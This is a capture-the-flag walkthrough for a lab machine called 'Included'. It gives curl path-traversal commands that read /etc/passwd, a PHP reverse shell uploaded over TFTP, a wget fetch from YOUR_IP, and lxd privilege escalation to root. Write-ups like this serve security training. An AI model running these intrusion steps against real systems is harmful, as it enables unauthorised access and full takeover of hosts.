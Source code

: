 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)
* [Discoveries](#discoveries)

![alt text](./img/included.PNG?raw=true)  

## Recon-Enumeration  
sudo masscan -p1-65535 10.10.10.55 -e tun0 --rate=1000  
![alt text](./img/included01.PNG?raw=true)  

Ok, the url look’s vulnerable to LFI. So let's test it  
![alt text](./img/included02.PNG?raw=true)  
  
![alt text](./img/included03.PNG?raw=true)  

BINGO!

## Exploit  
Let’s use curl to get a clean view of the files  
curl -v http://10.10.10.55/?file=../../../../../../../../../../../../etc/passwd  
![alt text](./img/included04.PNG?raw=true)  

curl -s -v http://10.10.10.55/?file=../../../../../../../../../../../../../../etc/issue  
![alt text](./img/included05.PNG?raw=true)  

curl -s -v http://10.10.10.55/?file=../../../../../../../../../../../../../../proc/version  
![alt text](./img/included06.PNG?raw=true)  

In the passwd we could see a user TFTP, maybe this service is active. Let’s try to connect to it and put a file in the server  
![alt text](./img/included07.PNG?raw=true)  

Perfect, create a php reverse shell page and upload it to the target.  
You can search the web for one or use the /usr/share/webshells/php/php-reverse-shell.php file, don’t forget to change de $ip and $port to yours

After upload it set up a netcat listener in the port you put in the file and let’s access the uploaded file.  
In the passwd we can see that the path of the tftp user is /var/lib/tftpboot, so the file is in this folder  
http://10.10.10.55/?file=../../../../../../../../../../../var/lib/tftpboot/shell-eldruin.php  
![alt text](./img/included08.PNG?raw=true)  

HABEMUS SHELL \o/\

## Privesc  
Run this command to get a better shell -> python3 -c 'import pty;pty.spawn("/bin/bash")'

We are logged as www-data and we don’t have permission to read the user.txt (inside mike’s folder). So let’s try to privesc  
![alt text](./img/included09.PNG?raw=true)  

Since this is a continuation of the PATHFINDER machine, let’s try to log as mike with the password found on that machine  
![alt text](./img/included10.PNG?raw=true)  

Now we can get back to mike’s home directory and read the flag. Time to root…..

Mike is in the lxd group, so we can try to use the lxd-alpine to get root  
![alt text](./img/included11.PNG?raw=true)  

Just execute the commands in the followed order and you will get root:  
For a better explanation check this [link](https://www.hackingarticles.in/lxd-privilege-escalation/)  
> In your machine:  
git clone  https://github.com/saghul/lxd-alpine-builder.git  
cd lxd-alpine-builder  
./build-alpine
check the name of the created file
sudo python3 -m http.server 80  

> On target machine  
cd /tmp  
wget http://YOUR_IP/CREATED_ALPINE_FILE
lxc image import ./CREATED_ALPINE_FILE --alias myimage  
lxc image list  
lxc init myimage ignite -c security.privileged=true  
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true  
lxc start ignite  
lxc exec ignite /bin/sh  
id  

![alt text](./img/included12.PNG?raw=true)  
  
It’s a little ugly, but is a root shell

To catch the flag just go to /mnt/root/root 
![alt text](./img/included13.PNG?raw=true)  

## Discoveries
As you could see there is a login.sql and inside we have another credential  
![alt text](./img/included14.PNG?raw=true)  


